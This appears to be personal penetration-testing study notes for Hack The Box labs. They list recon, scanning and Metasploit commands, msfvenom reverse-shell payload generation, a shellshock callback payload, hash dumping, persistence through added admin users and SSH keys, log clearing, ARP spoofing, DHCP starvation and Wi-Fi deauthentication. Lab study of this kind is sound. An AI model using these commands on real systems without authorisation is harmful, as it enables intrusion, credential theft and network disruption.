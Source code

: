 # Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# chains 
1. get access
   1. searchsploit
2. escalate access
3. upload rat
4. execute rat
5. deploy rat
   1. msfvenom cheat sheet aspx
6. clear tracks

# Recon
- theharvester -d $domain -l 500 -b google
- OSRFramework
  - usufy.py -n $target
  - mailfy.py -n $target # also checks if theyve been leaked
  - searchfy.py -n $target
  - domainfy.py -n $target
- nikto -host $ip
  - nmap -p80,443 $subnet -oG -  | nikto -h-
- openVAS ~nessus,   Greenbone Sec Assistant (gsad) GUI
  - apt install openvas
  - openvas-setup
  - omp -? 


# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access
  - OpenVPN
  - nmap -sC -sV 10.10.10.79
  - nmap --script vuln -oA nmap/vulnscan 10.10.10.79
  - sslyze --heartbleed 10.10.10.79:443
  - gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
  - burp suite community edition
  - 
## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
- https://medium.com/bugbountywriteup/valentine-a-hackthebox-writeup-f5b731e35138
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip                    # better to use msfc db_nmap
      1. 8080/tcp                 # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. Leads
      1. smb                      # 139/tcp ntbios-ssnn
      2. ftp                        
      3. web app
   5. google search $lead exploit 
      1. exploit-db.com
      2. rapid7.com
      3. AutoBlue-MS17010 coded example
3. `Gaining access`
   1. msfconsole                  # Rapid7 Metasploit
      1. search $lead           # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. info
      5. options
      6. show
      7. set $var $value
      8. exploit or run
   2. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. getsystem
      5. hashdump # get the SAM, pass hashes?
      6. find user.txt, or root.txt and submit to hackthebox.eu
      7. background
      8. search suggester
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
         2. set payload windows/x64/???
   3. nc -nvlp 1234 #netcat
      1. no tty # https://netsec.ws/?p=337
      2. escalate privlages
         1. sudo -u $user /bin/bash
         2. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
   4. `testing callbacks`
      1. shellshock
         1. () { :; }; /bin/bash -c "ping -c 3 $myip; id;"
      2. sudo tcptump -i eth9 -n icmp
   5. `keeping access `
      1. if `root`, create another admin user
      2. use tools on server to setup ssh server
      3. create keys
         1. cd .ssh
         2. echo $id_rsa.pub >> authorized_keys 
         3. known_hosts??
         4. ssh to box
         5. scp user@ip:/path . 
5. `Clearing tracks`
   1. CCleaner
   2. Auditpol
6. Capture the flag (CTF)
   1. tag web with contents of user.txt


# Leads
1. ftp
   1. get/put $file
2. smb                                          # found smb service
   1. smbclient -L \\\\$ip\\      
      1. try to crawl folders
3.  web app
   2. subs
      1. Sublist3r #for recon
         1. apt install sublist3r
      2. http://crt.sh 
   3. default apps
      1. try default credential lists
         1. google app names and default credentials
         2. try in burp suite
   4. dirbuster&  # OWASP DirBuster
      1. /usr/share/wordlists/dirbuster/dir??    #list based
         1. iis7 ext "asm,asmx,asp,aspx"
4. linux
   1. quick http
      1. python -m SimpleHTPServer 80
5. windows privliaged escalation
   1. wget for windws
      1. certutil -urlcache -f $url
   2. windows expliot suggester
   3. https://www.fuzzysecurity.com/tutorials/16.html
      1. rasta-mouse / sherlock or watson

# encrypt the drive
sudo yum install cryptsetup-luks
sudo fdisk -l
sudo cryptsetup -y -v luksFormat <DEVICE_NAME>; #asks for passphrase
sudo cryptsetup luksOpen <DEVICE_NAME>; LA
sudo cryptsetup -v status LA
sudo cryptsetup luksDump <DEVICE_NAME>
sudo dd if=/dev/zero of=/dev/mapper/LA bs=128
sudo mkfs.ext4 /dev/mapper/LA
mkdir LA
sudo mount /dev/mapper/LA LA/
sudo umount LA/
sudo cryptsetup luksClose LA

# whois
geoip-bin
geoiplookup $ip

# arp poisoning
- ip forwarding on
- keeps telling target that the your host is the gw. 
echo 1 > /proc/sys/net/ipv4/ip_forward
ip route # get ip of router =$routerip
arpspoof -i eth0 -t $targetip -$routerip 
#use wireshark ip.addr == $targetip

# dhcp starvation = DoS
net-dhcp-leases default
dhcpstarv -i eth0
yersinia 

# wireless hacking
https://www.aircrack-ng.org/
wifi Monitoring mode? 
airmon-ng start $wifiadapter # from ifconfig
airodump-ng $newinterfacename
airodump-ng -c $ch --bssid $MAC -w capture $newinterfacename
airreplay-ng --deauth 0 -a -$MACap -c $MAC

# notes
smtp expn
smtp verify
snmp-check?? tool
